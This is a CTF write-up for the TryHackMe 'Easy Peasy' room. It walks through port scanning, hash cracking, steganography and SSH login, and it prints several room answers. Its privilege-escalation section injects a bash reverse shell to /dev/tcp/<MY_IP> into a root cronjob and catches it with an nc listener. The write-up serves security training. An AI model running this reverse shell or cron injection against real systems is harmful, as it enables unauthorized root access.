**Room Link : https://tryhackme.com/room/easypeasyctf**
# Introduction

Welcome to my first writeup for the **Easy Peasy** room on TryHackMe. This room provides a great mix of enumeration, cryptography, and steganography challenges. Let's dive in!

# Enumeration

## Nmap Scan

I started with a comprehensive Nmap scan to identify open ports and running services.

```bash
nmap -sV -sC -p- -T5 -Pn -o nmap_scan 10.66.154.228
```
My scan revealed the following open ports:

-   **80/tcp** (HTTP): Nginx 1.16.1
-   **6498/tcp** (SSH): OpenSSH 7.6p1
-   **65524/tcp** (HTTP): Apache httpd 2.4.43

> [!NOTE] 
> It's interesting to see two different web servers running on the same machine: Nginx on port 80 and Apache on port 65524.

Here is the raw output from my scan:

```text
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_
```

### Task 1 Answers

| Question | Answer |
| :--- | :--- |
| How many ports are open? | `3` |
| What is the version of nginx? | `1.16.1` |
| What is running on the highest port? | `Apache` |


# Task 2: Compromising the machine

## Enumerating Web Services

### Port 80 (Nginx) & Port 65524 (Apache)

Port 80 hosts the default Nginx page, while port 65524 shows the Apache default page. Both have `robots.txt` entries. Inspecting the source code and `robots.txt` is always a good first step.

### Directory Bruteforcing (GoBuster)

You can use GoBuster to enumerate hidden directories on the web servers. This is crucial for finding flags that aren't linked from the main pages.

```bash
gobuster dir -u http://10.66.154.228 -w /usr/share/wordlists/dirb/common.txt
```
However, I prefer using FeroxBuster as it is faster and more powerful.


During my enumeration, I discovered a hidden directory named `/hidden` but after inspecting seems nothing useful in it. Further digging into `/hidden/whatever` and inspecting the source page of this directory I found a paragraph text encoded in `base64`.
> [!NOTE]
> “==” is often a base64 string.


We could decode this with
```bash 
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64 -d
```
For me I have used a popular plateform called `Cyberchef`.


**Bingo! Flag Found**

> **Flag 1**
>
>> Using GoBuster, find flag 1.
>
>> `flag{REDACTED}`

With Port 80 fully enumerated, let's investigate Port 65524.

Default Apache server webpage :


Hmm... This is not the default Apache header, so it’s worth keeping in mind for later.


During my Nmap scan, I noticed that `/robots.txt` exists, so let’s check it out.

Inside it, we find the following entry:

`User-Agent: a18672860d0510e5ab6699730763b250`

This looks like an **MD5 hash**.



To crack it, we can use tools like `hashcat` or `John the Ripper`, or simply try an online hash-cracking service. For me I prefer [https://hashes.com](https://hashes.com/)



> **Flag 2**
>
>> Further enumerate the machine, what is flag 2?
>
>> `flag{REDACTED}`

While searching for Flag 3, I got stuck for a bit. Remembering the unusual Apache header I noticed earlier, I went back and re-read the page carefully, where I eventually found the flag hidden in the text.


> **Flag 3**
>
>> Crack the hash with easypeasy.txt, What is the flag 3?
>
>> `flag{REDACTED}`

Viewing the source code revealed something..


The hint "ba...." clearly suggested Base64 encoding. I decoded the string using Cyberchef and I found a hidden directory:


> **Question4**
>
>> What is the hidden directory?
>
>> `/n0th1ng3ls3m4tt3r`

I navigated to the hidden directory and The page displayed a random image that seemed suspicious. Let's download it using `wget <link-to-image>` for later use.


Digging into the source code once again revealed a suspicious hash:

`940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`


>[!NOTE]
>A 64-character hash is usually SHA-256, but it's often a trick. Using `hashid` or an online tools like `Name That Hash`, I saw it could be GOST (a Russian hash standard).

## Steganography and Cracking

I used john with the easypeasy.txt wordlist provided by the room. I explicitly forced the format to GOST to avoid false positives.
```bash
john --format=gost --wordlist=easypeasy.txt hash.txt
```

**Crack Successful:**

> **Question 5**
>
>> Using the wordlist that provided to you in this task crack the hash what is the password?
>
>> `mypasswordforthatjob`

With the password in hand, and the downloaded image `binarycodepixabay.jpg` from the hidden page. The password suggested it was a key for steganography.

I used steghide to extract hidden data:

```bash
steghide extract -sf binarycodepixabay.jpg
# Passphrase: mypasswordforthatjob
```
It extracted a file named secrettext.txt containing a binary string:


```text
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

Decoding this binary string:

```bash
python3 -c "print(''.join([chr(int(b, 2)) for b in '01101001...'.split()]))"
```
Or using Cyberchef which decoded to:

> **Question 6**
>
>> What is the password to login to the machine via SSH?
>
>> `iconvertedmypasswordtobinary`
## SSH Access

I used this password to SSH into the machine:

```bash
ssh boring@10.66.154.228 -p 6498
```


>[!NOTE]
> SSH is not running on the default port (22), but on port `6498`. So we have to specify the `-p` flag to ssh to login using that port.



Once logged in, I found the **User Flag** in `user.txt`.
However, the content appeared to be **rotated**, making it unreadable at first glance.
Since the rotation value was unknown, I used **CyberChef** to **brute‑force all possible rotations** until the readable flag was revealed.


> **Flag 7**
>
>> What is the user flag?
>
>> `flag{REDACTED}`

## Privilege Escalation


After enumerating the system for privilege escalation vectors (checking SUID binaries, crontabs, etc.), I found a vulnerable cronjob running as root.
```bash
cat /etc/crontab
```
The Vulnerability: I found a specific line indicating a vulnerability: 
```text
* * * * * root cd /var/www/ && sudo bash .mysecretcronjob.sh
```
This script runs every minute as root. I checked the permissions of the file and confirmed that my user boring had write access.

I injected a Bash reverse shell one-liner into the script to force root to connect back to my attack machine.

**On Kali (Listener):**
```bash
nc -lvnp 4444
```

**On Target (Injection):**
```bash
echo "bash -i >& /dev/tcp/<MY_IP>/4444 0>&1" > /var/www/.mysecretcronjob.sh
```



Finally, I read the **Root Flag** from `/root/root.txt`.



> **Flag 8**
>
>> What is the root flag?
>
>> `flag{REDACTED}`
